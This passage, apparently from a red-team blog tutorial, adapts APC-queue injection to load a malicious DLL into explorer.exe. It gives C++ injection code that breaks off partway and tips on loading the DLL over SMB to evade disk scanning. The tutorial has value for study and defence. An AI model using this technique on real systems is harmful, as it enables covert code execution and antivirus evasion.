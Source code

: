 As we are simply combining techniques we have already covered before, there are no new Windows API calls to discuss. This also means we will not be going over these Windows API functions again.

As always with any variation of DLL injection, we need a DLL in the first place. We can reuse the code from the Classic DLL Injection post or we can create one using a C2 like Cobalt Strike or MSFVenom.

# Changes

The first change we need to make is changing our variable that holds our shellcode. This variable can now point to the path of our malicious DLL. So, we go from this `unsigned char buf[] = "Never trust random blobs of shellcode you find on the Internet";` to this `char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";`

As always, we can utilize UNC paths here to load the DLL remotely from a SMB share to avoid dropping our malicious DLL to disk where it can be scanned. 

The second change we make is to the `QueueUserAPC` function call. We will go from this `QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);` to this `QueueUserAPC((PAPCFUNC) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), threadHandle, (ULONG_PTR)shellAddress);`

We can also make a call to `VirtualFreeEx` at the end to release the memory we allocated in the remote process (and we _should_ do this because we are both good citizens and memory-conscious programmers), but this is not completely necessary. 

# All Together

Note: _Once again we wish to call out that this template, prior to the changes we have made, comes from [here](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection). Full credit to ired.team._

Putting everything together we should have something akin to this:

```cpp
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

int main()
{
	char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(myDLLPath);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_stricmp(processEntry.szExeFile, "explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(victimProcess, shellAddress, myDLLPath, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
```
